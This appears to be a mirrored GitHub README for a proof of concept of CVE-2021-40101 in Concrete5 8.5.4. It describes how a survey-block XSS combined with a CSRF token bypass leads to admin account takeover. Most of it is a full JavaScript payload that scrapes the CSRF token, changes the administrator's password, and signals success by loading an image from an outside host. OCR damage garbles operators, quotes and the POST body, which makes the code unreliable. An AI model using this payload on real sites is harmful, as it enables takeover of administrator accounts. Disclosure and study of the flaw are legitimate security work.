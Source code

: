 # CVE-2021-40101

Survey XSS combined with CSRF leads to Admin Account Takeover in Concrete5 8.5.4

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/S1lkys](https://github.com/S1lkys) |
| Url      | [https://github.com/S1lkys/CVE-2021-40101](https://github.com/S1lkys/CVE-2021-40101)                                               |
| Stars    | 0                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* concrete5* cve-2021-40101* exploit* xss

</details>

## Readme

# Survey XSS combined with CSRF leads to Admin Account Takeover in Concrete5 8.5.4
A Concrete CMS admin in versions below 9 did not have to provide their password when changing another user's password.

In combination with [CVE-2021-28145](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28145) ("Concrete CMS (formerly concrete5) before 8.5.5 allows remote authenticated users to conduct XSS attacks via a crafted survey block. This requires at least Editor privileges": fix was included in version 8.5.5.) it is possible for a low privileged User for example a developer or a public user who is able to create surveys to insert malicious javascript code into the web application. The results of surveys can be reviewd by an administrator in his web interface under Reports > Surveys. The malicious Javascript code gets there executed as well. Concrete5 does have a CSRF protection which can be bypassed very easily by stealing the corresponding Token from the Page before executing a request. As concrete5 does not ask for the old password when changing it. It is possible to change the administrator password very easily.


# Payload
```
var ccm_token = ";
var body = ";
var regex = /[0-9]{10}\:[a-f0-9]{32}/g;
var req = new XMLHttpRequest();
var req2 = new XMLHttpRequest(); 
req.open("GET","/concrete5-8.5.4/index.php/dashboard/users/search/view/1", true); 
req.setRequestHeader("X-Requested-With", "XMLHttpRequest");
req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
req. send(); 

req.onreadystatechange = function () { 
  if (req.readyState == 4 bb req.status == 200) { 
    body = req.responseText; 
    ccm_token = body.match(regex)[3];
   }
  }; 
setTimeout(() => { 
  confirm("Admin Account Takeover through XSS and CSRF Bypass in Concrete5 v.8.5.4 by Silky. CSRF Tok en: "+ccm_token); 
  req2.open("POST","/concrete5-8.5.4/index.php/dashboard/users/search/change_password/1", true);
  req2.setRequestHeader("X-Requested-With", "XMLHttpRequest");
  req2.setRequestHeader('Content-type', eapplication/x-www-form-urlencoded.);
  req2.send("ccm_token="+ccm_token+"&uPassword=Demonstration_by_SilkyEruPasswordConfirm=Demonstration_ by_Silkyt_ccm_consider_request_as_xhr=1"); 

req2.onreadystatechange = function () { 
  if (req2.readyState == 4 bb req2.status == 200) {
    body = req2.responseText;
    if (body.includes("Password updated successfully.")){
      console.log("Password updated successfully.");
      var myImage = new Image(0, 0);
      myImage.src = Ihttp://192.168.56.1:5686/Password_changed_successfullys;
     }
     else{
      console.log("Something went wrong");
     } 
   }
 } 
},2000); 

```




CVSS scores: 
* CVE-2021-40101 - 6.4 medium AV:N/AC:H/PR:H/UI:R/S:U/C:H/I:H/A:H
* CVE-2021-28145 - 5.4 medium CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N

Resulting in a final score of 
* 7.2 high

# References:
* https://hackerone.com/bugs?report_id=1065577
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40101
* https://youtu.be/w-B-j4NadDw
* https://github.com/concrete5/concrete5/pull/9707/commits/f6bb806acfdda22860133b9586df068d4e3909a7



## Get the content

```
git clone https://github.com/S1lkys/CVE-2021-40101
cd CVE-2021-40101
```

{% embed url="https://github.com/S1lkys/CVE-2021-40101" %}

<figure><img src="https://avatars.githubusercontent.com/u/40408435?v=4" alt=""><figcaption><p>S1lkys</p></figcaption></figure>
